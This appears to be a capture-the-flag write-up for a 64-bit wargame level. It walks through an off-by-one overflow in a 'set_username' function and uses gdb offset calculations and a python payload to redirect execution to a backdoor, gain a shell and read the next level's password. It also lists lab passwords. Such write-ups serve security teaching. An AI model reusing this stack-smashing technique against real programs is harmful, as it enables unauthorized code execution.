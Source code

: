 # Level09 - 64 bits - Loop vulnerability

## Local script usage

Requirements:

- `gdb-peda`

You can setup requirements with the script: [scripts/installUtils.sh](../../scripts/installUtils.sh)

```shell
./scripts/installUtils.sh
./level07/Ressources/main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level09 | `GbcPDRgsFK77LNnnuh7QyFYA2942Gp8yKj9KrWD8` |
| end     | `j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE` |

## Steps to resolve on VM

See our assembly interpretation in [source file](../source.c)

We can see a function `secret_backdoor` that is able to execute a given string. But this function is not called. We have to find a way to redirect the code.

The function used such as `fgets`, `strncpy` and `printf` are correctly used and not vulnerable.

But there is still a vulnerability: the function `set_username` fills 41 characters inside `msg.usr` instead 40 characters. As `msg` data are stored in a structure, data are contiguous. It means we are able to override the max length of the message. It is useful, because this length is used by `strncpy`. We are able to create an overflow.

First lets find the `secret_backdoor` address:

```shell
info function secret_backdoor
0x000055555555488c  secret_backdoor
```

Then, lets find the EIP address of the return of `handle_msg`

```shell
b*handle_msg+80 # before set_username
run
info frame
  Stack level 0, frame at 0x7fffffffe4e0: (...)
  rip at 0x7fffffffe4d8    # handle_msg return eip
```

And now, lets find the `msg` address, and calculate the offset with the EIP found

```shell
p $rbp-0xc0 # t_msg msg
  $1 = (void *) 0x7fffffffe410

p /d 0x7fffffffe4d8 - 0x7fffffffe410 # eip - msg
  $3 = 200 # offset
```

The offset is 200.

Our exploit will be something like:

```
USERNAME_INPUT: 'A' * 40 + (OFFSET + 8) # 8 bytes to write the x64 address
MESSAGE_INPUT:  'B' * OFFSET + SECRET_BACKDOOR_ADDRESS
BACKDOOR_INPUT: '/bin/sh'
```

Lets calculate the offset + 8 bytes in hexadecimal

```shell
p 200 + 8
  $2 = 0xd0
```

Perfect, we have everything we need

```shell
python -c "print 'A' * 40 + '\xd0'" > /tmp/exploit09
python -c "print 'B' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00'" >> /tmp/exploit09
echo "/bin/sh" >> /tmp/exploit09

~/level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA: Msg @Unix-Dude
>>: >: Msg sent!

$ whoami
  end
$ cat /home/users/end/.pass
  j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

## Sources

### C

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man strncpy](https://linux.die.net/man/3/strncpy)
- [Man system](https://linux.die.net/man/3/system)
